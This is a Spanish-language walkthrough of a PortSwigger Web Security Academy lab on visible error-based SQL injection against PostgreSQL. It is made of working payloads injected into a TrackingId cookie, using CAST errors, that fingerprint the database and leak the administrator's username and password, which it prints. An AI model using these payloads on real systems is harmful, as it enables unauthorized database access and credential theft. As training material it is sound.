# Visible Error-Based SQL Injection

## 📌 Información del laboratorio

| Campo | Detalle |
|---|---|
| **Laboratorio** | Visible Error-Based SQL Injection |
| **Categoría** | SQL Injection (Error-Based) |
| **Técnica** | Exfiltración de datos vía mensajes de error del backend |
| **Motor de base de datos** | PostgreSQL |
| **Plataforma** | PortSwigger Web Security Academy |

🔗 [Acceder al laboratorio](https://portswigger.net/web-security/sql-injection/blind/lab-sql-injection-visible-error-based)

---

## 🎯 Objetivo

Extraer las credenciales del usuario `administrator` aprovechando que la aplicación muestra errores de base de datos directamente en la respuesta HTTP.

---

## 🔍 Detectando la vulnerabilidad

El punto de entrada es el parámetro `TrackingId`, una cookie que la aplicación usa para rastrear visitas. Intercepté la petición con Burp Suite e inyecté una comilla simple para ver cómo reacciona el backend:

```sql
F4zi3QUMl29qhKsA'
```

La aplicación respondió con un error de sintaxis SQL. Esto ya es bastante revelador, significa que el valor del parámetro se está insertando directamente dentro de la query sin ningún tipo de sanitización.



Para confirmar que puedo controlar la query, agregué un comentario SQL (`--`) al final, que le dice a la base de datos que ignore todo lo que viene después:

```sql
F4zi3QUMl29qhKsA' --
```

Esta vez la respuesta fue normal, sin errores. Inyección SQL confirmada.



---

## 🔎 Identificando el motor de base de datos (Fingerprinting)

Antes de poder extraer datos necesito saber con qué motor de base de datos estoy trabajando, porque cada uno tiene su propia sintaxis. Este proceso se llama **fingerprinting**.

La idea es usar `CAST`, una función que convierte un valor de un tipo de dato a otro, para forzar un error de conversión. Si intento convertir un string a entero (`int`), la base de datos va a fallar y si muestra el error voy a ver el valor que estaba tratando de convertir.

Primero tuve que llegar a la sintaxis correcta del `CAST` empece con esto:

```sql
F4zi3QUMl29qhKsA' CAST(SELECT '' FROM dual AS int) --
```



El error me dijo que la sentencia no tenia sentido, faltaba un operador logico antes del `CAST` y lo corrijo con `AND`:

```sql
F4zi3QUMl29qhKsA' AND CAST(SELECT '' FROM dual AS int) --
```



Otro error: el `SELECT` tiene que ir encerrado en paréntesis para que funcione como subconsulta:

```sql
F4zi3QUMl29qhKsA' AND CAST((SELECT '' FROM dual) AS int) --
```



Ahora el error cambió: la tabla `dual` no existe, eso descarta Oracle, que es el único motor que usa esa tabla.

---

### Prueba con MySQL / Microsoft SQL Server

```sql
F4zi3QUMl29qhKsA' AND CAST((SELECT @@version) AS int) --
```



`@@version` es la forma de obtener la versión en MySQL y MSSQL, tampoco funcionó, asi que los descarto tambien.

---

### Prueba con PostgreSQL

```sql
F4zi3QUMl29qhKsA' AND 1=CAST((SELECT version()) AS int) --
```

> Nota: el error anterior me indicaba que el resultado del `AND` debia ser booleano (verdadero/falso), no un entero. Por eso agregue la comparación `1=`, convierte la expresión en algo que el parser puede evaluar como booleano.



El mensaje de error ahora incluye la versión de PostgreSQL y el sistema operativo del servidor. Exactamente lo que necesitaba.

> ✅ **Motor confirmado: PostgreSQL**

---

## 📤 Extrayendo datos de la tabla de usuarios

Con la estructura del payload validada, apunto directamente a la tabla `users`:

```sql
F4zi3QUMl29qhKsA' AND 1=CAST((SELECT username FROM users) AS int)--
```

El error apareció pero estaba cortado, el mensaje no mostraba el valor completo porque el `TrackingId` original era demasiado largo y hay un límite de caracteres en la respuesta.



La solución fue simple, eliminé el valor del token para hacer espacio en la respuesta:

```sql
' AND 1=CAST((SELECT username FROM users) AS int)--
```

Nuevo error: la subconsulta estaba devolviendo más de una fila y `CAST` solo puede operar sobre un valor único (escalar). lo soluciono con un `LIMIT 1` para que solo traiga el primer registro:

```sql
' AND 1=CAST((SELECT username FROM users LIMIT 1) AS int)--
```



> ✅ Usuario encontrado: `administrator`

---

## 🔐 Extrayendo la contraseña

Mismo proceso, ahora sobre la columna `password`:

```sql
' AND 1=CAST((SELECT password FROM users LIMIT 1) AS int)--
```

El mensaje de error expone la contraseña en texto plano.



```
u0ygrdbyh362orb8qgdz
```

---

## 🔓 Acceso como administrador

Con las credenciales obtenidas, ingresé al panel de login:

- **Usuario:** `administrator`
- **Contraseña:** `u0ygrdbyh362orb8qgdz`



Acceso exitoso. Laboratorio completado.



---

## ✅ Resultado

Se logró extraer las credenciales del usuario administrator sin usar UNION ni Blind SQLi. Los mensajes de error del backend fueron suficientes para exfiltrar los datos.

El proceso completo fue:

- Detectar que el input llega sin sanitización a la query

- Confirmar la inyección con un comentario SQL

- Identificar el motor de base de datos descartando Oracle y MySQL/MSSQL hasta confirmar PostgreSQL

- Usar CAST para provocar errores de conversión de tipos que revelen datos

- Ajustar el payload para resolver problemas de truncamiento y múltiples filas

- Extraer usuario y contraseña de la tabla users

A diferencia de Blind SQLi donde no se ve nada en la respuesta, acá los mensajes de error hacen todo el trabajo, solo hay que saber cómo provocarlos y leerlos.
